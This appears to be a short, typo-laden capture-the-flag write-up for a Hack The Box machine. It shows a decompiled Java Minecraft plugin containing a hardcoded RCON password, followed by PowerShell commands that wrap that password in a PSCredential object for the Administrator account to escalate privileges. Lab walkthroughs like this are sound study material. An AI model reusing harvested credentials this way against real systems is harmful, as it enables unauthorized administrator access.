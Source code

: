 # powershell
- simple modified powershell can be used to gain access from one user to another using but it needs what is know as password

assume we have managed to get a shell and we have meet something like this maybe 
```
public final class Playercounter extends JavaPlugin {  
  public void onEnable() {  
    Rcon rcon = null;  
    try {  
      rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());  
    } catch (IOException e) {  
      throw new RuntimeException(e);  
    } catch (AuthenticationException e2) {  
      throw new RuntimeException(e2);


This issue can be referenced from a craft machine from hack the box
```

- If we try to discete the code we can see that is trying to create a playercounter plugin with a onEnable() method being enabled, with the method we can see the the is a Rcon class which tried to establish remote connection with the above port,ip and password as "s67u84zKq8IXw". first it will try to connect and if the authentication fails it throws an exceptions error and it will stop loading the plugin

- now lets see how we can abuse this into getting a shell as an adminstrator, first we will need the following credential object based parameter

# Create string  that will store our password

we need to create an object based paramater that will carry our credentials lets begin with a string to hold the creds

```
PS C:\Users\svc_minecraft\server\plugins> $SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force  

we can try to make a secure password conversion 
```

# After we have store our password lets create a new object named creds that will hold this creds with a respective administrator username
```
PS C:\Users\svc_minecraft\server\plugins> $cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)  

```
